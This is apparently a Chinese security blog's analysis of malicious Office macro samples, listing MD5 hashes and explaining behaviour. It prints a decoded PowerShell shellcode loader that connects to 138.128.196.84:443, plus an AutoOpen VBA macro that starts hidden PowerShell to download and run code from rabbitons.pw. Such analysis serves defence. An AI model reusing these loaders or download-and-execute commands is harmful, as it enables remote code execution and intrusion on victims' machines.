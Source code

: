 使用LNK文件,建立反弹shell的样本

[![](https://p0.ssl.qhimg.com/t01df229ddd1c056964.png)](https://p0.ssl.qhimg.com/t01df229ddd1c056964.png)

**流量欺骗**

为了快速提升网站流量、Alexa排名、淘宝网店访问量、博客人气、每日访问IP、PV、UV等,有些网站站长会采取非常规的引流方法,采用软件在后台模拟人正常访问网页的点击动作而达到提升流量的目的。



样本MD5:5f8dc4db8a658b7ba185c2f038f3f075

文档打开后里面只有“test by c”这几个文字

[![](https://p1.ssl.qhimg.com/t01cd83089da63a11c8.png)](https://p1.ssl.qhimg.com/t01cd83089da63a11c8.png)

提取出文档中的宏中的加密字符解密后得到可读的ps脚本如下

```
$1 = '$c = ''[DllImport("kernel32.dll")]public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);[DllImport("kernel32.dll")]public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);[DllImport("msvcrt.dll")]public static extern IntPtr memset(IntPtr dest, uint src, uint count);'';$w = Add-Type -memberDefinition $c -Name "Win32" -namespace Win32Functions -passthru;[Byte[]];[Byte[]]$z = 0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,[……] ,0x31,0x32,0x38,0x2e,0x31,0x39,0x36,0x2e,0x38,0x34,0x00,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5;$g = 0x1000;if ($z.Length -gt 0x1000)`{`$g = $z.Length`}`;$x=$w::VirtualAlloc(0,0x1000,$g,0x40);for ($i=0;$i -le ($z.Length-1);$i++) `{`$w::memset([IntPtr]($x.ToInt32()+$i), $z[$i], 1)`}`;$w::CreateThread(0,0,$x,0,0,0);for (;;)`{`Start-sleep 60`}`;';$e = [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($1));if([IntPtr]::Size -eq 8)`{`$x86 = $env:SystemRoot + "syswow64WindowsPowerShellv1.0powershell";$cmd = "-nop -noni -enc ";iex "&amp; $x86 $cmd $e"`}`else`{`$cmd = "-nop -noni -enc";iex "&amp; powershell $cmd $e";`}`
```

可见,ps脚本的主要功能就是执行Shellcode,这段Shellcode的功能就是调用wininet.dll中的函数进行连接138.128.196.84地址的443端口。而138.128.196.84地址正为流量宝类的软件用的地址。

[![](https://p1.ssl.qhimg.com/t01445b6bc0a0ecbe77.png)](https://p1.ssl.qhimg.com/t01445b6bc0a0ecbe77.png)

**探测控制**

样本对通过宏调用Powershell下载PE文件在受影响的系统上检查是否为关心的目标并执行进一步地操作,具备针对性攻击的特点。

样本MD5:fba6b329876533f28d317e60fe53c8d3

从样本中抽取出的宏主要是根据系统版本下载相应的文件执行



```
Sub AutoOpen()
    x1 = "Download"
    h = "Str"
    o = "power" &amp; "shell" &amp; ".exe"
    Const HIDDEN_WINDOW = 0
    strComputer = "."
    abcdef = h &amp; "ing"
    Set objWMIService = GetObject("winmgmts:\" &amp; strComputer &amp; "rootcimv2")
    Set objStartup = objWMIService.Get("Win32_ProcessStartup")
    Set objConfig = objStartup.SpawnInstance_
    objConfig.ShowWindow = HIDDEN_WINDOW
    Set objProcess = GetObject("winmgmts:\" &amp; strComputer &amp; "rootcimv2:Win32_Process")
    objProcess.Create o &amp; " -ExecutionPolicy Bypass -WindowStyle Hidden -noprofile -noexit -c if ([IntPtr]::size -eq 4) `{`(new-object Net.WebClient)." &amp; x1 &amp; abcdef &amp; "('http://rabbitons.pw/cache') | iex `}` else `{`(new-object Net.WebClient)." &amp; x1 &amp; abcdef &amp; "('http://rabbitons.pw/css') | iex`}`", Null, objConfig, intProcessID
```
